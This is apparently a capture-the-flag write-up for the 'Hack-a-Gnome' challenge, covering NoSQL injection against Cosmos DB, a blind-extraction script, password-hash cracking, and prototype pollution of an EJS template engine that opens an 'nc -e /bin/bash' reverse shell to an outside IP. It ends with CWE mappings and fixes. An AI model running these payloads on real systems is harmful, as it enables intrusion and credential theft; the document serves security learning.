

# Hack-a-Gnome
Difficulty: <span style="color:red">❄ ❄ ❄</span> ❄ ❄  
Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun.

## Hints
### Hack-a-Gnome
Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like [Burp Suite](https://portswigger.net/burp) or [OWASP ZAP](https://www.zaproxy.org/). You might be able to trigger a revealing error message.
### Hack-a-Gnome
Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.
### Hack-a-Gnome
There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online **crack**ing **station** to break it.
### Hack-a-Gnome
Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic **prototype**, we found the factory's **pollution** to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.
### Hack-a-Gnome
I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend **Statistics** page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).
### Hack-a-Gnome
Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the `canbus_client.py` file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.

## Solution
### The website
Upon accessing the webpage at `https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/login`, I was presented with a login form and a register page:

|  |  |

While typing a username on the registration page, I observed that the username was dynamically validated via a call to the URL `https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable`. This request included `username` and `id` parameters:


I replicated this check using `curl`:
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % curl 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=test&id=2a671ab5-30d1-4df4-adc1-140dc625534f'
{"available":true}%    
```

### The Injection
Using a technical method I call "smashing the keyboard" ([taught to me by @DP back in 2021](https://github.com/TheDead91/KringleCon4/tree/main/08.%20Kerberoasting%20on%20an%20Open%20Fire#840-escaping-the-grades-app-dp)), I tested various special characters until I triggered a useful error messages:


A quick message to ChatGPT revealed that the backend was using Azure Cosmos DB. I confirmed that SQL injection was possible:


I wrote a simple Python script to quickly attempt different injections:
```python
# sqli_tester.py
import requests

url = 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?id=88a910ef-00a8-4d72-94a0-d78c01fc6010&username={}'

while True:
  inject = input("Injection: ")
  r = requests.get (url.format(inject))
  print (r.text)
```

### The username
I began trying to identify valid usernames to log in with, but I quickly fell into the rabbit hole of Cosmos DB's quirks 😁

#### Forget about uniqueness (length)
Normally, I would try limiting the number of fields and counting the length of the parameter I'm interested in...well...it doesn't work here 😒
```
Injection: " OR LENGTH(c.username)=4 OFFSET 0 LIMIT 1 --
{"error":"An error occurred while checking username: Cannot read properties of undefined (reading 'length')"}
Injection: " OR LENGTH(c.username)=5 OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR LENGTH(c.username)=6 OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR LENGTH(c.username)=7 OFFSET 0 LIMIT 1 --
{"error":"An error occurred while checking username: Cannot read properties of undefined (reading 'length')"}
```

Even though I specified `OFFSET` and `LIMIT`, the query seemed to evaluate multiple entries. Despite this, it provided an interesting piece of information: the length of the valid `username` was either 5 or 6 characters.

#### Forget about uniqueness (contents)
I encountered the same and, if possible, even more frustrating behavior when checking for `username` characters:
```
Injection: " OR SUBSTRING(c.username, 0, 1) = 'b' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 0, 1) = 'h' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 1, 1) = 'a' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 1, 1) = 'r' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 2, 1) = 'r' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 2, 1) = 'u' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 3, 1) = 'c' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 3, 1) = 'o' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 4, 1) = 'e' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 4, 1) = 'l' OFFSET 0 LIMIT 1 --
{"available":false}
Injection: " OR SUBSTRING(c.username, 5, 1) = 'd' OFFSET 0 LIMIT 1 --
{"available":false}
```

Despite the frustration, having a set of possible letters, this allowed me to build a short wordlist to bruteforce the `username`. I wrote a script to generate all combinations of the discovered characters:
```python
# wordlist_generator.py
import itertools

lengths = [5,6]
chars = [['b', 'h'],['r', 'a'],['r', 'u'],['c', 'o'],['e', 'l'],['d']]

results = []

with open("username_wordlist.txt", "w") as file:
  for l in lengths:
    for combo in itertools.product(*chars[:l]):
      word = "".join(combo)
      results.append(word)
      file.write (f'{word}\n')

print(results)
print(len(results))
```

This produced a list of 64 candidates:
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % python3 wordlist_generator.py
['brrce', 'brrcl', 'brroe', 'brrol', 'bruce', 'brucl', 'bruoe', 'bruol', 'barce', 'barcl', 'baroe', 'barol', 'bauce', 'baucl', 'bauoe', 'bauol', 'hrrce', 'hrrcl', 'hrroe', 'hrrol', 'hruce', 'hrucl', 'hruoe', 'hruol', 'harce', 'harcl', 'haroe', 'harol', 'hauce', 'haucl', 'hauoe', 'hauol', 'brrced', 'brrcld', 'brroed', 'brrold', 'bruced', 'brucld', 'bruoed', 'bruold', 'barced', 'barcld', 'baroed', 'barold', 'bauced', 'baucld', 'bauoed', 'bauold', 'hrrced', 'hrrcld', 'hrroed', 'hrrold', 'hruced', 'hrucld', 'hruoed', 'hruold', 'harced', 'harcld', 'haroed', 'harold', 'hauced', 'haucld', 'hauoed', 'hauold']
64
```

Leveraging the wordlist, I used `wfuzz` to identify the valid usernames. I knew that `{"available":true}` (18 chars) meant the username didn't exist, while `{"available":false}` (19 chars) meant it did:
```bash
┌──(kali㉿mac-vikali)-[~/Desktop/hack-a-gnome]
└─$ wfuzz -c -w username_wordlist.txt --sh=19 "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=FUZZ" 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=FUZZ
Total requests: 64

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000005:   200        0 L      1 W        19 Ch       "bruce"
000000060:   200        0 L      1 W        19 Ch       "harold"

Total time: 1.282494
Processed Requests: 64
Filtered Requests: 62
Requests/sec.: 49.90273
```

The scan revealed two valid users: `bruce` and `harold`.

### The password field
Next, I needed to find the field name storing the password. A working injection to check if a field exists in Cosmos DB is `" OR IS_DEFINED(c.fieldname) --`:


After I ran out of options, I gave up and brute-forced the column names using [`sqlmap`'s common columns wordlist](https://raw.githubusercontent.com/sqlmapproject/sqlmap/refs/heads/master/data/txt/common-columns.txt):
```bash
┌──(kali㉿mac-vikali)-[~/Desktop/hack-a-gnome]
└─$ wfuzz -c -w common-columns.txt --sh=19 "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20OR%20IS_DEFINED%28c.FUZZ%29%20--"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20OR%20IS_DEFINED%28c.FUZZ%29%20--
Total requests: 2854

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000008:   200        0 L      1 W        19 Ch       "username"
000000004:   200        0 L      1 W        19 Ch       "id"
000000901:   200        0 L      1 W        19 Ch       "username"
000002554:   200        0 L      1 W        19 Ch       "digest"

Total time: 188.1391
Processed Requests: 2854
Filtered Requests: 2850
Requests/sec.: 15.16962
```

This revealed a field named `digest`. I then wrote a script, [`dumpField.py`](/assets/static/posts/2025/2025-19-Hack-a-Gnome/dumpField.py), to perform an error-based injection to extract the hash character by character:
```python
# dumpField.py

import requests
import logging
import os
import argparse
import string

###########
# GLOBALS #
###########
uid = 'b3167174-051a-4434-9e12-ad0295327127'
base_url = f'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?id={uid}'

inject_parameter = 'username'

##########
# CONFIG #
##########
logging.basicConfig(
    format="%(asctime)s | %(levelname)-8s | %(name)s | %(funcName)s | %(message)s",
    datefmt="%Y-%m-%d %H:%M:%S",
)
log = logging.getLogger(os.path.basename(__file__))

#############
# FUNCTIONS #
#############
def sendInjection (injection, prepend=""):
  injection = f'{prepend}{injection}'
  log.debug (f'Sending injection: {injection}')
  url = f'{base_url}&{inject_parameter}={injection}'
  log.debug (f'Performing request to: {url}')
  
  r = requests.get(url).json()
  log.debug (f'Response is: {r}')

  return r

def getStringLength (colname, prepend=""):
  i = 0
  finished = False
  while not finished:
    injection = f'" AND LENGTH(c.{colname}) = {i} --'
    log.debug (f'Injection string is: {injection}')
    r = sendInjection (injection, prepend)

    if r.get('available') == False:
      finished = True
    else: 
      i += 1

  return i

def dumpData (field_name, prepend=""):
  log.info (f'Dumping data for field: {field_name}')

  stringLength = getStringLength (field_name, prepend)
  log.info (f'Length of data is: {stringLength}')

  output = ""
  for i in range(stringLength):
    for char in string.printable:
      injection = f'" AND SUBSTRING(c.{field_name}, {i}, 1) = \'{char}\' --  '
      log.debug (f'Injection string is: {injection}')
      r = sendInjection (injection, prepend)

      if r.get('available') == False:
        output += char
        break

  log.info (f'Found content: {field_name} --> {output}')

  return output

# -- Args parsing --
def parse_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("field_name", help="The name of the field to fetch")
    parser.add_argument("--verbose", "-v", action="count", default=0, help="Increase verbosity (use -vv for very verbose / debug)")
    parser.add_argument("--prepend", "-p", default="", help="String to prepend to all injections, comma separated - Can be used to specify usernames")
    parser.add_argument("--output_file", "-o", help="Save output to the specified file")
    return parser.parse_args()

########
# MAIN #
########
def main():
  args = parse_args()

  if args.verbose == 1:
    log.setLevel(logging.INFO)
    log.info("Log mode set to: INFO")
  elif args.verbose >= 2:
    log.setLevel(logging.DEBUG)
    log.debug("Log mode set to: DEBUG")

  if args.output_file:
    f = open (args.output, "a")
    f.write ('PREPEND,WORD,OUTPUT\n') 

  for prepend in args.prepend.split(','):
    log.info (f'Starting to dump data for field: {args.field_name}')
    output = dumpData (args.field_name, prepend)
    output_string = f'{prepend},{args.field_name},{output}'
    print (output_string)
    if args.output_file:
      f.write (f'{output_string}\n')

  if args.output_file:
    f.close()

if __name__ == "__main__":
  main()
```

The script successfully extracted two hashes ([full debug log](/assets/static/posts/2025/2025-19-Hack-a-Gnome/dumpField.log)):
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % python3 dumpField.py --prepend harold,bruce digest -v
2025-12-31 01:09:44 | INFO     | dumpField.py | main | Log mode set to: INFO
2025-12-31 01:09:44 | INFO     | dumpField.py | main | Starting to dump data for field: digest
2025-12-31 01:09:44 | INFO     | dumpField.py | dumpData | Dumping data for field: digest
2025-12-31 01:09:54 | INFO     | dumpField.py | dumpData | Length of data is: 32
2025-12-31 01:11:25 | INFO     | dumpField.py | dumpData | Found content: digest --> 07f456ae6a94cb68d740df548847f459
harold,digest,07f456ae6a94cb68d740df548847f459
2025-12-31 01:11:25 | INFO     | dumpField.py | main | Starting to dump data for field: digest
2025-12-31 01:11:25 | INFO     | dumpField.py | dumpData | Dumping data for field: digest
2025-12-31 01:11:36 | INFO     | dumpField.py | dumpData | Length of data is: 32
2025-12-31 01:13:13 | INFO     | dumpField.py | dumpData | Found content: digest --> d0a9ba00f80cbc56584ef245ffc56b9e
bruce,digest,d0a9ba00f80cbc56584ef245ffc56b9e
```

Using John the Ripper with the [CrackStation](https://crackstation.net/) wordlist), I cracked the digests:
```bash
┌──(kali㉿mac-vikali)-[~/Desktop/hack-a-gnome]
└─$ john --wordlist=crackstation.txt -format=raw-md5 --fork=4 digests
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 ASIMD 4x2])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: UTF-16 BOM seen in wordlist. File may not be read properly unless you re-encode it
oatmeal!!        (harold)
oatmeal12        (bruce)   
```

### The Prototype Pollution
Once logged in, I saw a dashboard comprising a statistics `iframe` (`https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats`) and the factory itself (`https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/control`), but trying to move the GnomeBot was failing:


The factory also uses a websocket to provide the results of the user actions (`wss://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ws`) with the `sessionId` parameter set to the `connect.sid` cookie value that gets set at login.  

The only interactive function I could find was changing the GnomeBot's name:


Behind the scenes, this update called `https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals` with the `message` parameter:
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % curl 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A%22update%22%2C%22key%22%3A%22settings%22%2C%22subkey%22%3A%22name%22%2C%22value%22%3A%22test%22%7D' -b 'connect.sid=s%3AKMRRKFLuhW8hT7B7MftZg4Xo01XZOh2k.QxyekhSgLBp9vK7GB4XVVFeAtcDZSKJdTY%2FgdkpYlFU'
{"type":"message","data":"success","message":"Updated settings.name to test"}%   
```

Decoding the content of `message` reveals it passes a JSON:
```json
{
  "action": "update",
  "key": "settings",
  "subkey": "name",
  "value": "test"
}
```

When I passed an object as the value, the server responded with `Updated settings.name to [object Object]`. This indicated that the input was not being properly sanitized and was susceptible to Prototype Pollution:
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % curl 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A%22update%22%2C%22key%22%3A%22settings%22%2C%22subkey%22%3A%22name%22%2C%22value%22%3A%7B%7D%7D' -b 'connect.sid=s%3AKMRRKFLuhW8hT7B7MftZg4Xo01XZOh2k.QxyekhSgLBp9vK7GB4XVVFeAtcDZSKJdTY%2FgdkpYlFU'
{"type":"message","data":"success","message":"Updated settings.name to [object Object]"}%   
```
The effect is also reflected in the stats:


Looking for the right injection point, I was hinted toward this payload:
```json
{
  "action": "update",
  "key": "__proto__",
  "subkey": "toString",
  "value": ""
}
```
Submitting it shows that it polluted `__proto__.toString`: 
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % curl 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A%22update%22%2C%22key%22%3A%22__proto__%22%2C%22subkey%22%3A%22toString%22%2C%22value%22%3A%22%22%7D' -b 'connect.sid=s%3AKMRRKFLuhW8hT7B7MftZg4Xo01XZOh2k.QxyekhSgLBp9vK7GB4XVVFeAtcDZSKJdTY%2FgdkpYlFU' 
{"type":"message","data":"success","message":"Updated __proto__.toString to "}
```
This resulted in a disastrous server error, confirming the pollution worked:


I crafted a payload to achieve Remote Code Execution (RCE) by polluting the `outputFunctionName` property used by the template engine (likely EJS):
```json
{
  "action": "update",
  "key": "__proto__",
  "subkey": "outputFunctionName",
  "value": "a; return process.mainModule.require('child_process').exec('nc -e /bin/bash 157.90.173.140 1234')//"
}
```

This pollutes the `outputFunctionName` and spawns an (asynchronous) reverse shell toward a server built for the occasion:
```bash
(env) thedead@maccos 19 - Hack-a-Gnome % curl 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A%22update%22%2C%22key%22%3A%22__proto__%22%2C%22subkey%22%3A%22outputFunctionName%22%2C%22value%22%3A%22a%3B%20return%20process.mainModule.require%28%27child_process%27%29.exec%28%27nc%20-e%20%2Fbin%2Fbash%20157.90.173.140%201234%27%29%2F%2F%22%7D' -b 'connect.sid=s%3AYLYDkVVj8iD9KSV5V4rQ8LZCgbm5L7-6.ec%2BJHkPTXnPx3Yb1dN75xOSa2BxRweHTxNLYoIEy7B8'
{"type":"message","data":"success","message":"Updated __proto__.outputFunctionName to a; return process.mainModule.require('child_process').exec('nc -e /bin/bash 157.90.173.140 1234')//"}%  
```

Now, every time the stats page rendered, it triggered a reverse shell connection to my server:


### Fixing the CANBUS
Exploring the server via the reverse shell, I found a `README.md` mentioning missing movement signals for the GnomeBot:
```markdown
TODO: There are more signals related to controlling the GnomeBot's movement
(Up/Down/Left/Right) and the acknowledgments sent back by the bot.
These involve CAN IDs that are not totally settled yet. We are still polishing
the documentation for these - check back after eggnog break!
```

I also found the `canbus_client.py` script of which I wrote a stripped down version, `canbus_bruteforce.py`, to cycle through CAN IDs from `0x000` to `0x1000` to identify the signals:
```python
# canbus_bruteforce.py
import can
import datetime

IFACE_NAME = "gcan0"

def main():
    print(f"Connecting to CAN interface {IFACE_NAME}...")

    bus = can.interface.Bus(channel=IFACE_NAME, interface="socketcan", receive_own_messages=False)
    print(f"Connected to {IFACE_NAME}.\n")

    for i in range (0x000, 0x1000):
        bus.send(can.Message(arbitration_id=i, data=[], is_extended_id=False))
        ts = datetime.datetime.now().strftime('%H:%M:%S.%f')[:-3]
        print(f"{ts} | Sent ID 0x{i:03X}")

    bus.shutdown()
    print("CAN bus connection closed.")

if __name__ == "__main__":
    main()

```

I uploaded this script to the server:
```bash
cat <<EOF > canbus_bruteforce.py
#!/usr/bin/env python3
import can
import datetime
import time
IFACE_NAME = "gcan0"
def main():
    print(f"Connecting to CAN interface {IFACE_NAME}...")
    bus = can.interface.Bus(channel=IFACE_NAME, interface="socketcan", receive_own_messages=False)
    print(f"Connected to {IFACE_NAME}.\n")
    for i in range (0x000, 0x8000):
        bus.send(can.Message(arbitration_id=i, data=[], is_extended_id=False))
        ts = datetime.datetime.now().strftime('%H:%M:%S.%f')[:-3]
        print(f"{ts} | Sent ID 0x{i:03X}")
        time.sleep(0.1)
    bus.shutdown()
    print("CAN bus connection closed.")
if __name__ == "__main__":
    main()
EOF
```

I then executed it while monitoring the WebSocket output. I noticed interesting behavior around IDs `0x201` through `0x204`, which were not shown in the websocket output:
<iframe width="560" height="315" src="https://www.youtube.com/embed/0qHd_1dJACk?si=XRZBLVxQcbDGpouC&hl=en" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

Specifically, sending ID `0x201` caused the robot's position to change in the game state JSON:
```json
{"type": "gamestate", "payload": {"robot": {"col": 7, "row": 0}, "end_goal": {"col": 0, "row": 0}, "crates": [{"id": "c1", "col": 2, "row": 0}, {"id": "c2", "col": 4, "row": 0}, {"id": "c3", "col": 6, "row": 0}, {"id": "c4", "col": 0, "row": 1}, {"id": "c5", "col": 3, "row": 1}, {"id": "c6", "col": 4, "row": 1}, {"id": "c7", "col": 6, "row": 1}, {"id": "c8", "col": 1, "row": 2}, {"id": "c9", "col": 2, "row": 2}, {"id": "c10", "col": 3, "row": 2}, {"id": "c11", "col": 5, "row": 2}, {"id": "c12", "col": 7, "row": 2}, {"id": "c13", "col": 1, "row": 3}, {"id": "c14", "col": 3, "row": 3}, {"id": "c15", "col": 4, "row": 3}, {"id": "c16", "col": 6, "row": 3}, {"id": "c17", "col": 0, "row": 4}, {"id": "c18", "col": 2, "row": 4}, {"id": "c19", "col": 4, "row": 4}, {"id": "c20", "col": 5, "row": 4}, {"id": "c21", "col": 1, "row": 5}, {"id": "c22", "col": 3, "row": 5}, {"id": "c23", "col": 6, "row": 5}, {"id": "c24", "col": 2, "row": 6}, {"id": "c25", "col": 4, "row": 6}, {"id": "c26", "col": 5, "row": 6}, {"id": "c27", "col": 7, "row": 6}, {"id": "c28", "col": 0, "row": 7}, {"id": "c29", "col": 2, "row": 7}, {"id": "c30", "col": 3, "row": 7}, {"id": "c31", "col": 4, "row": 7}, {"id": "c32", "col": 5, "row": 7}, {"id": "c33", "col": 7, "row": 7}, {"id": "c34", "col": 1, "row": 8}, {"id": "c35", "col": 7, "row": 8}], "poweredoff": false, "grid": {"cols": 8, "rows": 9}}}
```
```json
{"type": "gamestate", "payload": {"robot": {"col": 7, "row": 1}, "end_goal": {"col": 0, "row": 0}, "crates": [{"id": "c1", "col": 2, "row": 0}, {"id": "c2", "col": 4, "row": 0}, {"id": "c3", "col": 6, "row": 0}, {"id": "c4", "col": 0, "row": 1}, {"id": "c5", "col": 3, "row": 1}, {"id": "c6", "col": 4, "row": 1}, {"id": "c7", "col": 6, "row": 1}, {"id": "c8", "col": 1, "row": 2}, {"id": "c9", "col": 2, "row": 2}, {"id": "c10", "col": 3, "row": 2}, {"id": "c11", "col": 5, "row": 2}, {"id": "c12", "col": 7, "row": 2}, {"id": "c13", "col": 1, "row": 3}, {"id": "c14", "col": 3, "row": 3}, {"id": "c15", "col": 4, "row": 3}, {"id": "c16", "col": 6, "row": 3}, {"id": "c17", "col": 0, "row": 4}, {"id": "c18", "col": 2, "row": 4}, {"id": "c19", "col": 4, "row": 4}, {"id": "c20", "col": 5, "row": 4}, {"id": "c21", "col": 1, "row": 5}, {"id": "c22", "col": 3, "row": 5}, {"id": "c23", "col": 6, "row": 5}, {"id": "c24", "col": 2, "row": 6}, {"id": "c25", "col": 4, "row": 6}, {"id": "c26", "col": 5, "row": 6}, {"id": "c27", "col": 7, "row": 6}, {"id": "c28", "col": 0, "row": 7}, {"id": "c29", "col": 2, "row": 7}, {"id": "c30", "col": 3, "row": 7}, {"id": "c31", "col": 4, "row": 7}, {"id": "c32", "col": 5, "row": 7}, {"id": "c33", "col": 7, "row": 7}, {"id": "c34", "col": 1, "row": 8}, {"id": "c35", "col": 7, "row": 8}], "poweredoff": false, "grid": {"cols": 8, "rows": 9}}}
```

I updated the `canbus_client.py` on the server with the correct command mapping:
```python
COMMAND_MAP = {
    "up": 0x201,
    "down": 0x202,
    "left": 0x203,
    "right": 0x204,
    # Add other command IDs if needed
}
```

With the signals fixed, I could control the gnome via the web UI and finally power off the factory!


## Reverse shell files
The entire contents I explored in the reverse shell are available [here](/assets/static/posts/2025/2025-19-Hack-a-Gnome/reverse_shell_files.zip).  

## Dissecting the attack

<table>
     <thead>
         <tr>
             <th style="text-align:center">Phase</th>
             <th style="text-align:center">Vulnerability (CWE)</th>
             <th style="text-align:center">Mitigation</th>
         </tr>
     </thead>
     <tbody>
         <tr>
             <td rowspan="1"><strong>1. Injection</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-89</strong><br/>Improper Neutralization of Special Elements in an SQL Command<br/><em>(NoSQL Injection)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Input Validation</strong><br/><em>(Parameterized Queries)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>2. Credentials</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-327</strong><br/>Use of a Broken or Risky Cryptographic Algorithm<br/><em>(MD5 Hashing)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Strong Cryptography</strong><br/><em>(Argon2 / Bcrypt)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>3. Execution</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-1321</strong><br/>Improperly Controlled Modification of Object Prototype Attributes<br/><em>(Prototype Pollution)</em></td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Input Validation</strong><br/><em>(Freeze Prototype / Block Keys)</em> </td>
         </tr>
     </tbody>
 </table>

### Fixing the SQL Injection (CWE-89)
**Vulnerability:** The application constructs Cosmos DB queries by concatenating user input (`username`) directly into the query string. This allows an attacker to alter the query logic (e.g., `' OR 1=1`).  
**Fix:** Use Parameterized Queries. This ensures the database treats user input as literal data, preventing the interpreter from executing injected commands.  
**Vulnerable Code:**
```js
// FLAW: Direct string concatenation
const query = `SELECT * FROM c WHERE c.username = "${username}"`;
```
**Secure Code:**
```js
// FIX: Use parameter binding
const query = "SELECT * FROM c WHERE c.username = @username";
const parameters = [{ name: "@username", value: username }];
```
**Impact:** Prevents the database dumping and enumeration attacks used to find the digest column.

### Fixing the Prototype Pollution (CWE-1321)
**Vulnerability:** The application recursively merges user input into objects without checking for dangerous keys like `__proto__`, `constructor`, or `prototype`. This allowed polluting the base Object prototype, corrupting the EJS template engine to execute arbitrary code.  
**Fix:** Implement a Denylist for dangerous keys during merge operations, or use `Object.freeze()` on the prototype.  
**Secure Design:**
```js
const merge = (target, source) => {
    for (let key in source) {
        // FIX: Block dangerous keys
        if (key === "__proto__" || key === "constructor" || key === "prototype") {
            continue; 
        }
        target[key] = source[key];
    }
    return target;
};
```
**Impact:** Prevents the modification of global object properties, stopping the RCE chain at the source.

### Fixing the Weak Cryptography (CWE-327)
**Vulnerability:** Passwords were stored using MD5, a fast hashing algorithm that is considered broken and cryptographically insecure. This allowed the hash `07f4...` to be cracked in seconds using standard wordlists.  
**Fix:** Use a slow, memory-hard hashing algorithm designed for passwords, such as Argon2id or Bcrypt.  
**Secure Code:**
```js
// FIX: Use Bcrypt with a work factor (salt is handled automatically)
const bcrypt = require('bcrypt');
const hash = await bcrypt.hash(password, 10);
```
**Impact:** Increases the cost of cracking a single password from microseconds to hundreds of milliseconds, making brute-force attacks impractical.

## Funsies
I'll try to depict how I felt during the injection attempts:


And...by the way...too much bruteforce on this one:


## Kudos
### i81b4u
#### And sorry for the fact that I now ruined your session 😅


#### just watch the robot/screen


